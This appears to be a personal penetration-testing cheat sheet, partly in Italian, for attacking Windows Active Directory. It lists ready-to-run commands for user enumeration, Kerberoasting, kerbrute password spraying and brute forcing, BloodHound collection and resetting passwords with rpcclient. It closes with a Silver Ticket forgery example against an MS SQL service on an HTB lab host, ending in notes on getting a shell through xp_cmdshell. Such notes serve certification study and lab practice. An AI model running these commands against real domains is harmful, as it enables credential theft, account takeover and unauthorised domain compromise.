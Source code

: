 - **GetADUsers**

```bash
impacket-GetADUsers -all "domain.com/username" -dc-ip $IP
# inserire password richiesta
```

- **Kerberoasting**

```bash
impacket-GetUserSPNs -dc-ip <ip> domain.com/user -request

impacket-GetUserSPNs oscp.com/username:'password' -dc-ip $IP -debug -outputfile kerberoast.txt
```

- **Kerbrute**

```bash
kerbrute passwordspray -d domain.com users.txt Password123
kerbrute bruteuser -d domain.com passwords.txt username

# con una lista di username e password
cat credentials.txt | kerbrute -d domain.com bruteforce -
```

-  **Bloodhound.py**

```bash
nxc ldap <ip> -u user -p pass --bloodhound -c All -ns <ip>

bloodhound-python -c ALL -u USERNAME -p 'PASSWORD' -d DOMAIN.COM -dc dc01.DOMAIN.COM -ns %IP
```

- **rpcclient**

```bash
rpcclient -U domain.com/user $IP
> enumdomusers
> getdompwinfo
> setuserinfo username 23 'password'
```

- If it is a service account try **Silver Ticket Attack**. I will add an example with MS SQL

```bash
impacket-ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>

# esempio
impacket-ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -spn TotesLegit/dc.sequel.htb administrator

# use ticket to login to the SQL service:
KRB5CCNAME=administrator.ccache mssqlclient.py -k Administrator@dc.sequel.htb

# Enable xp_cmdshell
...
# Ottieni una shell con xp_cmdshell
```
